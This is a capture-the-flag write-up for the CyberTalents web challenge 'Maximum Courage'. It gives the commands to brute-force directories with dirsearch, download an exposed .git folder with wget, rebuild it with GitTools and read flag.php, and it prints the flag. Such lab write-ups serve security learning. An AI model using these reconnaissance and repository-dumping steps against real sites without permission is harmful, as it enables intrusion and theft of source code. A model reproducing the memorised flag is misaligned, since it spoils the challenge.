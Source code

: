 # Challenge Name:
 [*Maximum Courage*](https://cybertalents.com/challenges/web/maximum-courage)
 
# Challenge Description
Max prefers to learn by practicing and not just reading all day, so he set up a webserver and hopes it stays secret, can you prove it has a weakness?

Link: [http://3.126.138.80/maximum/](http://3.126.138.80/maximum/)

## Answer
* Use Dirsearch tool to bruteforce directory of 'http://3.126.138.80/maximum/' 
```bash
python3 dirsearch.py -u http://3.126.138.80/maximum/
```
* We found an .git folder lets download it using wget
```bash
wget -r http://3.126.138.80/maximum/.git
```
* Use [GitTools](https://github.com/internetwache/GitTools) to extract commits and their content from this broken repository.
```bash
./extractor.sh ~/Desktop/maximum/ ~/Desktop/repo
```
* See flag.php file content
```bash
cat /home/darkknight/Desktop/repo/0-190de370286e98dda6813ac9c05f679ad60d9f9c/flag.php
```
* You got the Flag!!


 ## The Flag
 > be607453caada6a05d00c0ea0057f733
